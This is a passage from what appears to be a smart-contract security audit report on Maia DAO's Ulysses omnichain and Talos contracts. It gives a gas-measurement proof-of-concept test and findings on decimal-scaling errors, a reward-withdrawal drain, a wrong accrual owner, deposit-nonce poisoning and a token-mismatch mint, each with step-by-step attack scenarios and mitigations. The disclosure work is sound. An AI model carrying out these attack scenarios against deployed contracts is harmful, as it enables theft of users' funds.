        bool isFallback = _isSet(_flags, AnycallFlags.FLAG_EXEC_FALLBACK) || true; // let it fallback

        context = Context({
            from: _from,
            fromChainID: _fromChainID,
            nonce: _nonce
        });

        if (!isFallback) { 
            // we skip calling anyExecute since it is irrelevant for this PoC
            (success, result) = IApp(_to).anyExecute(_data);
        } else {
             // we skip calling anyExecute since it is irrelevant for this PoC
            // (success, result) = IApp(_to).anyFallback(_data);
        }

        context = Context({from: address(0), fromChainID: 0, nonce: 0});
    }
}

contract AnycallV7 {

    event Log`AnyCall`(
        address indexed from,
        address to,
        bytes data,
        uint256 toChainID,
        uint256 flags,
        string appID,
        uint256 nonce,
        bytes extdata
    );
    event Log`AnyCall`(
        address indexed from,
        string to,
        bytes data,
        uint256 toChainID,
        uint256 flags,
        string appID,
        uint256 nonce,
        bytes extdata
    );

    event LogAnyExec(
        bytes32 indexed txhash,
        address indexed from,
        address indexed to,
        uint256 fromChainID,
        uint256 nonce,
        bool success,
        bytes result
    );


    event StoreRetryExecRecord(
        bytes32 indexed txhash,
        address indexed from,
        address indexed to,
        uint256 fromChainID,
        uint256 nonce,
        bytes data
    );

    // Context of the request on originating chain
    struct RequestContext {
        bytes32 txhash;
        address from;
        uint256 fromChainID;
        uint256 nonce;
        uint256 flags;
    }
    address public mpc;

    bool public paused;

    // applications should give permission to this executor
    address public executor;

    // anycall config contract
    address public config;

    mapping(bytes32 => bytes32) public retryExecRecords;
    bool public retryWithPermit;

    mapping(bytes32 => bool) public execCompleted;
    uint256 nonce;

    uint256 private unlocked;

    modifier lock() {
        require(unlocked == 1, "locked");
        unlocked = 0;
        _;
        unlocked = 1;
    }
    /// @dev Access control function
    modifier onlyMPC() {
        require(msg.sender == mpc, "only MPC");
        _;
    }

    /// @dev pausable control function
    modifier whenNotPaused() {
        require(!paused, "paused");
        _;
    }

    function _isSet(uint256 _value, uint256 _testBits)
        internal
        pure
        returns (bool)
    {
        return (_value & _testBits) == _testBits;
    }


    /// @dev Charge an account for execution costs on this chain
    /// @param _from The account to charge for execution costs
    modifier chargeDestFee(address _from, uint256 _flags) {
        if (_isSet(_flags, AnycallFlags.FLAG_PAY_FEE_ON_DEST)) {
            uint256 _prevGasLeft = gasleft();
            _;
            IAnycallConfig(config).chargeFeeOnDestChain(_from, _prevGasLeft);
        } else {
            _;
        }
    }

    constructor(address _mpc) {
        unlocked = 1; // needs to be unlocked initially
        mpc = _mpc;
        config = address(new AnycallV7Config());
        executor = address(new AnycallExecutor(address(this)));
    }

    /// @notice Calc unique ID
    function calcUniqID(
        bytes32 _txhash,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce
    ) public pure returns (bytes32) {
        return keccak256(abi.encode(_txhash, _from, _fromChainID, _nonce));
    }

    function _execute(
        address _to,
        bytes memory _data,
        RequestContext memory _ctx,
        bytes memory _extdata
    ) internal returns (bool success) {
        bytes memory result;

        try
            IAnycallExecutor(executor).execute(
                _to,
                _data,
                _ctx.from,
                _ctx.fromChainID,
                _ctx.nonce,
                _ctx.flags,
                _extdata
            )
        returns (bool succ, bytes memory res) {
            (success, result) = (succ, res);
        } catch Error(string memory reason) {
            result = bytes(reason);
        } catch (bytes memory reason) {
            result = reason;
        }

        emit LogAnyExec(
            _ctx.txhash,
            _ctx.from,
            _to,
            _ctx.fromChainID,
            _ctx.nonce,
            success,
            result
        );
    }

    /**
        @notice Execute a cross chain interaction
        @dev Only callable by the MPC
        @param _to The cross chain interaction target
        @param _data The calldata supplied for interacting with target
        @param _appID The app identifier to check whitelist
        @param _ctx The context of the request on originating chain
        @param _extdata The extension data for execute context
    */
   // Note: changed from callback to memory so we can call it from the test contract
    function anyExec(
        address _to,
        bytes memory _data,
        string memory _appID,
        RequestContext memory _ctx, 
        bytes memory _extdata
    )
        external
        virtual
        lock
        whenNotPaused
        chargeDestFee(_to, _ctx.flags)
        onlyMPC
    {
        IAnycallConfig(config).checkExec(_appID, _ctx.from, _to);
        bytes32 uniqID = calcUniqID(
            _ctx.txhash,
            _ctx.from,
            _ctx.fromChainID,
            _ctx.nonce
        );
        require(!execCompleted[uniqID], "exec completed");

        bool success = _execute(_to, _data, _ctx, _extdata);
        // success = false on purpose, because when it is true, it consumes less gas. so we are considering worse case here

        // set exec completed (dont care success status)
        execCompleted[uniqID] = true;

        if (!success) {
            if (_isSet(_ctx.flags, AnycallFlags.FLAG_ALLOW_FALLBACK)) { 
                // this will be executed here since the call failed
                // Call the fallback on the originating chain
                nonce++;
                string memory appID = _appID; // fix Stack too deep
                emit Log`AnyCall`(
                    _to,
                    _ctx.from,
                    _data,
                    _ctx.fromChainID,
                    AnycallFlags.FLAG_EXEC_FALLBACK |
                        AnycallFlags.FLAG_PAY_FEE_ON_DEST, // pay fee on dest chain
                    appID,
                    nonce,
                    ""
                );
            } else {
                // Store retry record and emit a log
                bytes memory data = _data; // fix Stack too deep
                retryExecRecords[uniqID] = keccak256(abi.encode(_to, data));
                emit StoreRetryExecRecord(
                    _ctx.txhash,
                    _ctx.from,
                    _to,
                    _ctx.fromChainID,
                    _ctx.nonce,
                    data
                );
            }
        }
    }
}

contract GasCalc`AnyCall`v7 is DSTest, Test {


    AnycallV7 anycallV7;
    address mpc = vm.addr(7);
    function setUp() public {
        anycallV7 = new AnycallV7(mpc);
    }

    function test_gasInanycallv7() public {

        vm.prank(mpc);
        AnycallV7.RequestContext memory ctx = AnycallV7.RequestContext({
            txhash:keccak256(""),
            from:address(0),
            fromChainID:1,
            nonce:1,
            flags:AnycallFlags.FLAG_ALLOW_FALLBACK
        });
        uint256 gasStart_ = gasleft();
        anycallV7.anyExec(address(0),bytes(""),"1",ctx,bytes(""));
        uint256 gasEnd_ = gasleft();
        vm.stopPrank();
        uint256 gasSpent_ = gasStart_ - gasEnd_;
        console.log("anycallV7.anyExec Gas Spent => %d", gasSpent_);
    }
}

```

</details>

### Recommended Mitigation Steps

Increase the `MIN_FALLBACK_RESERVE` by `115_000` to consider the `anyExec` method in ``AnyCall``. So `MIN_FALLBACK_RESERVE` becomes `300_000` instead of `185_000`.

Additionally, calculate the gas consumption of the input data passed and add it to the cost. This should be done when the call was made in the first place.

Note: I suggest that the `MIN_FALLBACK_RESERVE` should be configurable/changeable. After launching `OmniChain` for some time, collect stats about the actual gas used for ``AnyCall`` on the chain then adjust it accordingly. This also keeps you on the safe side in case any changes are applied on ``AnyCall`` contracts in the future, since it is upgradeable.

**[0xBugsy (Maia) disagreed with severity and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/764#issuecomment-1632867959):**
 > We should add `premium()` uint256 to match their gas cost calculation `totalCost = gasUsed * (tx.gasprice + _feeData.premium)` and abide by it since these are the calculations under which we will be charged in the execution budget.

**[Trust (judge) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/764#issuecomment-1647898073):**
 > Unless there is additional reasoning to why the impact is reduced, High seems appropriate.

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/764#issuecomment-1655669241):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-05] Multiple issues with decimal scaling will cause incorrect accounting of hTokens and underlying tokens](https://github.com/code-423n4/2023-05-maia-findings/issues/758)
*Submitted by [peakbolt](https://github.com/code-423n4/2023-05-maia-findings/issues/758), also found by BPZ ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/813), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/559), [3](https://github.com/code-423n4/2023-05-maia-findings/issues/550)), [RED-LOTUS-REACH](https://github.com/code-423n4/2023-05-maia-findings/issues/636), [0xTheC0der](https://github.com/code-423n4/2023-05-maia-findings/issues/498), ltyu ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/279), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/278), [3](https://github.com/code-423n4/2023-05-maia-findings/issues/276), [4](https://github.com/code-423n4/2023-05-maia-findings/issues/233), [5](https://github.com/code-423n4/2023-05-maia-findings/issues/209)), bin2chen ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/802), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/790)), kodyvim ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/259), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/172)), 0xStalin ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/189), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/170)), [LokiThe5th](https://github.com/code-423n4/2023-05-maia-findings/issues/709), [ubermensch](https://github.com/code-423n4/2023-05-maia-findings/issues/655), [adeolu](https://github.com/code-423n4/2023-05-maia-findings/issues/599), [jasonxiale](https://github.com/code-423n4/2023-05-maia-findings/issues/596), and [kutugu](https://github.com/code-423n4/2023-05-maia-findings/issues/290)*

### Lines of code

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L313>
<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L696>
<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L745>

### Vulnerability details

Functions `_normalizeDecimals()` and `_denormalizeDecimals()` are used to handle non-18 decimal tokens when bridging a deposit by scaling them to a normalized 18 decimal form for `hToken` accounting, and then de-normalizing them to the token's decimals when interacting with the underlying token.

However, there are 3 issues as follows:

1. Implementations of `_normalizeDecimals()` and `_denormalizeDecimals()` are reversed.
2. The function `_denormalizeDecimals()` is missing in `ArbitrumBranchPort.depositToPort()`.
3. The function `_normalizeDecimals()` is missing in functions within `BranchBridgeAgent`.

These issues will cause an incorrect accounting of `hTokens` and underlying tokens in the system.

### Impact

An incorrect decimal scaling will lead to a loss of funds, as the amount deposited and withdrawn for bridging will be inaccurate. This can be abused by an attacker or result in users incurring losses.

For example, an attacker can abuse the `ArbitrumBranchPort.depositToPort()` issue and steal from the system by first depositing a token that has more than 18 decimals. The attacker will receive more `hTokens` than the deposited underlying token amount. The attacker can then make a profit by withdrawing from the port with the excess `hTokens`.

On the other hand, if the underlying token is less than 18 decimals, the depositor can incur losses, as the amount of underlying tokens deposited will be more than the amount of `hTokens` received.

### Issue #1

The functions `BranchBridgeAgent._normalizeDecimals()` and `BranchPort._denormalizeDecimals()` (shown below) are incorrect, as they are implemented in a reversed manner; such that `_denormalizeDecimals()` is normalizing to 18 decimals while `_normalizeDecimals()` is de-normalizing to the underlying token decimals.

The result is that for tokens with > 18 decimals, `_normalizeDecimals()` will overscale the decimals, while for tokens with < 18 decimals, `_normalizeDecimals()` will underscale the decimals.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1340-L1342>

```Solidity
    function _normalizeDecimals(uint256 _amount, uint8 _decimals) internal pure returns (uint256) {
        return _decimals == 18 ? _amount : _amount * (10 ** _decimals) / 1 ether;
    }
```
<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchPort.sol#L388-L390>

```Solidity
    function _denormalizeDecimals(uint256 _amount, uint8 _decimals) internal pure returns (uint256) {
        return _decimals == 18 ? _amount : _amount * 1 ether / (10 ** _decimals);
    }
```

### Issue #2

The function `ArbitrumBranchPort.depositToPort()` is missing the call  `_denormalizeDecimals()` to scale back the decimals of the underlying token amounts before transferring. This will cause the wrong amount of the underlying tokens to be transferred.

As shown below, the function `ArbitrumBranchBridgeAgent.depositToPort()` has normalized the "amount" to 18 decimals before passing into `ArbitrumBranchPort.depositToPort()`.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/ArbitrumBranchBridgeAgent.sol#L104>

```Solidity
    function depositToPort(address underlyingAddress, uint256 amount) external payable lock {

        //@audit - amount is normalized to 18 decimals here
        IArbPort(localPortAddress).depositToPort(
            msg.sender, msg.sender, underlyingAddress, _normalizeDecimals(amount, ERC20(underlyingAddress).decimals())
        );
    }
```

That means, the `_deposit` amount for `ArbitrumBranchPort.depositToPort()` (see below) will be incorrect, as it is not de-normalized back to the underlying token's decimal, causing the wrong value to be transferred from the depositor.

If the underlying token is more than 18 decimals, the depositor will transfer less underlying tokens than the `hToken` received, resulting in excess `hTokens`. The depositor can then call `withdrawFromPort()` to receive more underlying tokens than deposited.

If the underlying token is less than 18 decimals, that will inflate the amount to be transferred from the depositor, causing the depositor to deposit more underlying tokens than the amount of `hToken` received. The depositor will incur a loss when withdrawing from the port.

Instead, the `_deposit` should be de-normalized in `ArbitrumBranchPort.depositToPort()` when passing to `_underlyingAddress.safeTransferFrom()`, so that it is scaled back to the underlying token's decimals when transferring.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/ArbitrumBranchPort.sol#L52-L54>

```Solidity
    function depositToPort(address _depositor, address _recipient, address _underlyingAddress, uint256 _deposit)
        external
        requiresBridgeAgent
    {
        address globalToken = IRootPort(rootPortAddress).getLocalTokenFromUnder(_underlyingAddress, localChainId);
        if (globalToken == address(0)) revert UnknownUnderlyingToken();

        //@audit - the amount of underlying token should be denormalized first before transferring
        _underlyingAddress.safeTransferFrom(_depositor, address(this), _deposit);

        IRootPort(rootPortAddress).mintToLocalBranch(_recipient, globalToken, _deposit);
    }
```

### Issue #3

In `BranchBridgeAgent`, the deposit amount passed into `_depositAndCall()` and `_depositAndCallMultiple()` are missing `_normalizeDecimals()`.

The example below shows `callOutSignedAndBridge()`, but the issue is also present in `callOutAndBridge()`, `callOutSignedAndBridgeMultiple()` and `callOutAndBridgeMultiple()`.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L269>

```Solidity
    function callOutSignedAndBridge(bytes calldata _params, DepositInput memory _dParams, uint128 _remoteExecutionGas)
        external
        payable
        lock
        requiresFallbackGas
    {
        //Encode Data for cross-chain call.
        bytes memory packedData = abi.encodePacked(
            bytes1(0x05),
            msg.sender,
            depositNonce,
            _dParams.hToken,
            _dParams.token,
            _dParams.amount,
            _normalizeDecimals(_dParams.deposit, ERC20(_dParams.token).decimals()),
            _dParams.toChain,
            _params,
            msg.value.toUint128(),
            _remoteExecutionGas
        );

        //Wrap the gas allocated for omnichain execution.
        wrappedNativeToken.deposit{value: msg.value}();

        //Create Deposit and Send Cross-Chain request
        _depositAndCall(
            msg.sender,
            packedData,
            _dParams.hToken,
            _dParams.token,
            _dParams.amount,
            //@audit - the deposit amount of underlying token should be noramlized first
            _dParams.deposit,
            msg.value.toUint128()
        );
    }
```

This will affect `_createDepositSingle()` and `_createDepositMultiple()`, leading to incorrect decimals for `IPort(localPortAddress).bridgeOut()`, which will affect `hToken` burning and the deposit of underlying tokens.

At the same time, the deposits to be stored in `getDeposit[]` are also not normalized, causing a mismatch of decimals when `clearToken()` is called via `redeemDeposit()`.

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L857-L891>

```Solidity
    function _createDepositSingle(
        address _user,
        address _hToken,
        address _token,
        uint256 _amount,
        uint256 _deposit,
        uint128 _gasToBridgeOut
    ) internal {
        //Deposit / Lock Tokens into Port
        IPort(localPortAddress).bridgeOut(_user, _hToken, _token, _amount, _deposit);

        //Deposit Gas to Port
        _depositGas(_gasToBridgeOut);

        // Cast to dynamic memory array
        address[] memory hTokens = new address[](1);
        hTokens[0] = _hToken;
        address[] memory tokens = new address[](1);
        tokens[0] = _token;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = _amount;
        uint256[] memory deposits = new uint256[](1);
        deposits[0] = _deposit;

        // Update State
        getDeposit[_getAndIncrementDepositNonce()] = Deposit({
            owner: _user,
            hTokens: hTokens,
            tokens: tokens,
            amounts: amounts,
            //@audit the deposits stored is not normalized, causing a mismatch of decimals when `clearToken()` is called via `redeemDeposit()`
            deposits: deposits,
            status: DepositStatus.Success,
            depositedGas: _gasToBridgeOut
        });
    }
```

### Recommended Mitigation Steps

1.  Switch the implementation of `_normalizeDecimals()` to `_denormalizeDecimals()` and vice versa.

2.  Add `_denormalizeDecimals()` to `ArbitrumBranchPort.depositToPort()` when calling `IRootPort(rootPortAddress).mintToLocalBranch()`.

3.  Utilize `_normalizeDecimals()` when passing deposit amounts to  `_depositAndCall()` and `_depositAndCallMultiple()` within `BranchBridgeAgent`.

### Assessed type

Decimal

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/758#issuecomment-1631358603)**

**[0xBugsy (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/758#issuecomment-1655669704):**
 > We recognize the audit's findings on Decimal Conversion for Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

## [[H-06] `withdrawProtocolFees()` Possible malicious or accidental withdrawal of all rewards](https://github.com/code-423n4/2023-05-maia-findings/issues/731)
*Submitted by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/731), also found by [lukejohn](https://github.com/code-423n4/2023-05-maia-findings/issues/526) and tsvetanovv ([1](https://github.com/code-423n4/2023-05-maia-findings/issues/155), [2](https://github.com/code-423n4/2023-05-maia-findings/issues/139))*

The function `claimReward()` will take all of the rewards if the `amountRequested` it's passed in is 0, which may result in the user's rewards being lost.

### Proof of Concept

In `BoostAggregator.withdrawProtocolFees()`, the owner can take the `protocolRewards`.

The code is as follows:

```solidity
    function withdrawProtocolFees(address to) external onlyOwner {
        uniswapV3Staker.claimReward(to, protocolRewards);
@>      delete protocolRewards;
    }
```

From the above code, we can see that `uniswapV3Staker` is called to fetch and then clears `protocolRewards`.

Let's look at the implementation of `uniswapV3Staker.claimReward()`:

```solidity
contract UniswapV3Staker is IUniswapV3Staker, Multicallable {
....
    function claimReward(address to, uint256 amountRequested) external returns (uint256 reward) {
        reward = rewards[msg.sender];
@>      if (amountRequested != 0 && amountRequested < reward) {
            reward = amountRequested;
            rewards[msg.sender] -= reward;
        } else {
            rewards[msg.sender] = 0;
        }

        if (reward > 0) hermes.safeTransfer(to, reward);

        emit RewardClaimed(to, reward);
    }
```

The current implementation is if the `amountRequested==0` passed, it means that all `rewards[msg.sender]` of this `msg.sender` are taken.

This leads to the following problems:

1. If a malicious `owner` calls `withdrawProtocolFees()` twice in a row, it will take all of the `rewards` in the `BoostAggregator`.
2. Also, you probably didn't realize that `withdrawProtocolFees()` was called when `protocolRewards==0`.

As a result, the rewards that belong to users in `BoostAggregator` are lost.

### Recommended Mitigation Steps

Modify `claimReward()` to remove `amountRequested != 0`:

```solidity
contract UniswapV3Staker is IUniswapV3Staker, Multicallable {
....
    function claimReward(address to, uint256 amountRequested) external returns (uint256 reward) {
        reward = rewards[msg.sender];
-       if (amountRequested != 0 && amountRequested < reward) {        
+       if (amountRequested < reward) {
            reward = amountRequested;
            rewards[msg.sender] -= reward;
        } else {
            rewards[msg.sender] = 0;
        }

        if (reward > 0) hermes.safeTransfer(to, reward);

        emit RewardClaimed(to, reward);
    }
```

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/731#issuecomment-1632962752)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/731#issuecomment-1655906746):**
 > We prefer to leave the original `UniswapV3Staker` claim logic intact and have the `BoostAggregator` not allow the owner or stakers to claim 0 rewards. 

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/731#issuecomment-1708804869):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/731).

***

## [[H-07] `redeem()` in `beforeRedeem` is using the wrong owner parameter](https://github.com/code-423n4/2023-05-maia-findings/issues/730)
*Submitted by [bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/730)*

Using the wrong owner parameter can cause users to lose rewards.

### Proof of Concept

In `TalosStrategyStaked.sol`, if the user's `shares` have changed, we need to call `flywheel.accrue()` first, which will accrue `rewards` and update the corresponding `userIndex`. This way, we can ensure the accuracy of `rewards`. So we will call `flywheel.accrue()` before `beforeDeposit`/`beforeRedeem`/transfer etc.

Take `redeem()` as an example, the code is as follows:

```solidity
contract TalosStrategyStaked is TalosStrategySimple, ITalosStrategyStaked {
...

    function beforeRedeem(uint256 _tokenId, address _owner) internal override {
        _earnFees(_tokenId);
@>      flywheel.accrue(_owner);
    }
```

But when `beforeRedeem()` is called with the wrong owner passed in. The `redeem()` code is as follows:

```solidity
    function redeem(uint256 shares, uint256 amount0Min, uint256 amount1Min, address receiver, address _owner)
        public
        virtual
        override
        nonReentrant
        checkDeviation
        returns (uint256 amount0, uint256 amount1)
    {
...
        if (msg.sender != _owner) {
            uint256 allowed = allowance[_owner][msg.sender]; // Saves gas for limited approvals.

            if (allowed != type(uint256).max) allowance[_owner][msg.sender] = allowed - shares;
        }

        if (shares == 0) revert RedeemingZeroShares();
        if (receiver == address(0)) revert ReceiverIsZeroAddress();

        uint256 _tokenId = tokenId;
@>      beforeRedeem(_tokenId, receiver);

        INonfungiblePositionManager _nonfungiblePositionManager = nonfungiblePositionManager; // Saves an extra SLOAD
        {
            uint128 liquidityToDecrease = uint128((liquidity * shares) / totalSupply);

            (amount0, amount1) = _nonfungiblePositionManager.decreaseLiquidity(
                INonfungiblePositionManager.DecreaseLiquidityParams({
                    tokenId: _tokenId,
                    liquidity: liquidityToDecrease,
                    amount0Min: amount0Min,
                    amount1Min: amount1Min,
                    deadline: block.timestamp
                })
            );

            if (amount0 == 0 && amount1 == 0) revert AmountsAreZero();

@>          _burn(_owner, shares);

            liquidity -= liquidityToDecrease;
        }    
```

From the above code, we see that the parameter is the `receiver`, but the person whose shares are burned is `_owner`.

We need to accrue `_owner`, not `receiver`. This leads to a direct reduction of the user's shares without `accrue`, and the user loses the corresponding rewards.

### Recommended Mitigation Steps

```solidity
    function redeem(uint256 shares, uint256 amount0Min, uint256 amount1Min, address receiver, address _owner)
        public
        virtual
        override
        nonReentrant
        checkDeviation
        returns (uint256 amount0, uint256 amount1)
    {
        if (msg.sender != _owner) {
            uint256 allowed = allowance[_owner][msg.sender]; // Saves gas for limited approvals.

            if (allowed != type(uint256).max) allowance[_owner][msg.sender] = allowed - shares;
        }

        if (shares == 0) revert RedeemingZeroShares();
        if (receiver == address(0)) revert ReceiverIsZeroAddress();

        uint256 _tokenId = tokenId;
-       beforeRedeem(_tokenId, receiver);
+       beforeRedeem(_tokenId, _owner);
```

### Assessed type

Context

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/730#issuecomment-1644201456)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/730#issuecomment-1708805564):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/577-57-504-658-583-730).

***

## [[H-08] Due to inadequate checks, an adversary can call `BranchBridgeAgent#retrieveDeposit` with an invalid `_depositNonce`, which would lead to a loss of other users' deposits.](https://github.com/code-423n4/2023-05-maia-findings/issues/688)
*Submitted by [Emmanuel](https://github.com/code-423n4/2023-05-maia-findings/issues/688), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/310)*

An attacker will cause the user's funds to be collected and locked on Branch chain without it being recorded on the root chain.

### Proof of Concept

Anyone can call `BranchBridgeAgent#retrieveDeposit` with an invalid `_depositNonce`:

```solidity
function retrieveDeposit(
        uint32 _depositNonce
    ) external payable lock requiresFallbackGas {
        //Encode Data for cross-chain call.
        bytes memory packedData = abi.encodePacked(
            bytes1(0x08),
            _depositNonce,
            msg.value.toUint128(),
            uint128(0)
        );

        //Update State and Perform Call
        _sendRetrieveOrRetry(packedData);
    }
```

For example, if global `depositNonce` is "x", an attacker can call `retrieveDeposit(x+y)`. `RootBridgeAgent#anyExecute` will be called and the `executionHistory` for the `depositNonce` that the attacker specified would be updated to true.

```solidity
    function anyExecute(bytes calldata data){
        ...
    /// DEPOSIT FLAG: 8 (retrieveDeposit)
    else if (flag == 0x08) {
    //Get nonce
    uint32 nonce = uint32(bytes4(data[1:5]));

    //Check if tx has already been executed
    if (!executionHistory[fromChainId][uint32(bytes4(data[1:5]))]) {
        //Toggle Nonce as executed
        executionHistory[fromChainId][nonce] = true;

        //Retry failed fallback
        (success, result) = (false, "");
    } else {
        _forceRevert();
        //Return true to avoid triggering anyFallback in case of `_forceRevert()` failure
        return (true, "already executed tx");
    }
    }
    ...
    }
```

This means, that when a user makes a deposit on the `BranchBridgeAgent` and their deposit gets assigned a `depositNonce`, which the attacker previously called `retrieveDeposit` for, their tokens would be collected on the `BranchBridgeAgent`, but would not succeed on `RootBridgeAgent`. This is because `executionHistory` for that `depositNonce` has already been maliciously set to true.

### Attack Scenario

- The current global `depositNonce` is 50.
- An attacker calls `retrieveDeposit`(60), which would update `executionHistory` of `depositNonce`(60) to true on the Root chain.
- When a user tries to call any of the functions (say `callOutAndBridge`) and gets assigned `depositNonce` of 60, it won't be executed on root chain because `executionHistory` for `depositNonce`(60) is already set to true.
- A user won't also be able to claim their tokens because `anyFallback` was not triggered. So they have lost their deposit.

### Recommended Mitigation Steps

A very simple and effective solution is to ensure that in the `BranchBridgeAgent#retrieveDepoit` function, `msg.sender==getDeposit[_depositNonce].owner` is called just like it was done in [`BranchBridgeAgent#retryDeposit`](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L327).

### Assessed type

Invalid Validation

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/688#issuecomment-1632852679)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/688#issuecomment-1708808381):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/183-492-688-869).

***

## [[H-09] `RootBridgeAgent->CheckParamsLib#checkParams` does not check that `_dParams.token` is underlying of `_dParams.hToken`](https://github.com/code-423n4/2023-05-maia-findings/issues/687)
*Submitted by [Emmanuel](https://github.com/code-423n4/2023-05-maia-findings/issues/687), also found by [xuwinnie](https://github.com/code-423n4/2023-05-maia-findings/issues/273)*

A malicious user would make a deposit specifying a `hToken` of a high value (say hEther), and a `depositToken` of relatively lower value (say USDC). For that user, `RootBridgeAgent` would increment their `hToken` balance by the amount of `depositTokens` they sent.

### Proof of Concept

Here is the `checkParams` function:

```solidity
function checkParams(address _localPortAddress, DepositParams memory _dParams, uint24 _fromChain)
        internal
        view
        returns (bool)
    {
        if (
            (_dParams.amount < _dParams.deposit) //Deposit can't be greater than amount.
                || (_dParams.amount > 0 && !IPort(_localPortAddress).isLocalToken(_dParams.hToken, _fromChain)) //Check local exists.
                || (_dParams.deposit > 0 && !IPort(_localPortAddress).isUnderlyingToken(_dParams.token, _fromChain)) //Check underlying exists.
        ) {
            return false;
        }
        return true;
    }
```

The function performs 3 checks:

1. The `_dParams.amount` must be less than or equal to `_dParams.deposit`.
2. If `_dParams.amount > 0`, `_dParams.hToken` must be a valid `localToken`.
3. If `_dParams.deposit > 0`, `_dParams.token` must be a valid underlying token.

The problem is that the check only requires `getLocalTokenFromUnder[_dParams.token]`!=`address(0)`, but does not check that `getLocalTokenFromUnder[_dParams.token]`==`_dParams.hToken`:

```solidity
    function isUnderlyingToken(
        address _underlyingToken,
        uint24 _fromChain
    ) external view returns (bool) {
        return
            getLocalTokenFromUnder[_underlyingToken][_fromChain] != address(0);
    }
```

The `checkParams` function is used in the `RootBridgeAgent#bridgeIn` function. This allows a user to call `BranchBridgeAgent#callOutAndBridge` with a `hToken` and `token` that are not related.

### ATTACK SCENARIO

- The current price of Ether is 1800USDC.
- `RootBridgeAgent` is deployed on Arbitrum.
- `BranchBridgeAgent` for the Ethereum mainnet has two local tokens recorded in `RootBridgeAgent`:
    - hEther (whose underlying is Ether).
    - hUSDC (whose underlying is USDC).
- Alice calls `BranchBridgeAgent#callOutAndBridge` on Ethereum with the following as `DepositInput`(`_dParams`):
    - hToken (address of local hEther).
    - token (address of USDC).
    - amount (0).
    - deposit (10).
    - `toChain` (42161).
- `BranchPort#bridgeOut` transfers 10 USDC from the user to `BranchPort`, and the `anyCall` call is made to `RootBridgeAgent`.
- `RootBridgeAgent#bridgeIn` is called, which calls `CheckParamsLib.checkParams`.
    - `checkParams` verifies that `_dParams.amount(0)` is less than or equal to `_dParams.deposit` (10).
    - Verifies that `_dParams.hToken` (hEther) is a valid `localToken`.
    - Verifies that `_dParams.token` (USDC) is a valid underlying token (i.e. its local token is non zero).
- `RootBridgeAgent#bridgeIn` calls `RootPort#bridgeToRoot` which mints 10 global hEther to the user `if (_deposit > 0) mint(_recipient, _hToken, _deposit, _fromChainId);`.
- With just 10 USDC, the user has been able to get 10 ether (18000USDC) worth of funds on the root chain.

Execution flow:
`BranchBridgeAgent#callOutAndBridge` -> `BranchBridgeAgent#_callOutAndBridge` -> `BranchBridgeAgent#_depositAndCall` -> `BranchBridgeAgent#_performCall` -> `RootBridgeAgent#anyExecute` -> `RootBridgeAgentExecutor#executeWithDeposit` -> `RootBridgeAgentExecutor#_bridgeIn` -> `RootBridgeAgent#bridgeIn`.

### Recommended Mitigation Steps

Currently, the protocol only checks to see if the token is recognized by `rootport` as an underlying token by checking that the registered local token for `_dParams.token` is a non zero address.

Instead of that, it would be more effective to check that the registered local token for `_dParams.token` is equal to `_dParams.hToken`. Some sanity checks may also be done on `DepositInput(_dParams)` in `BranchBridgeAgent`. Although, this is not necessary.

### Assessed type

Invalid Validation

**[0xBugsy (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/687#issuecomment-1650307510)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/687#issuecomment-1708811384):**
> Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/687).

***

## [[H-10] `TalosBaseStrategy#init()` lacks slippage protection](https://github.com/code-423n4/2023-05-maia-findings/issues/658)
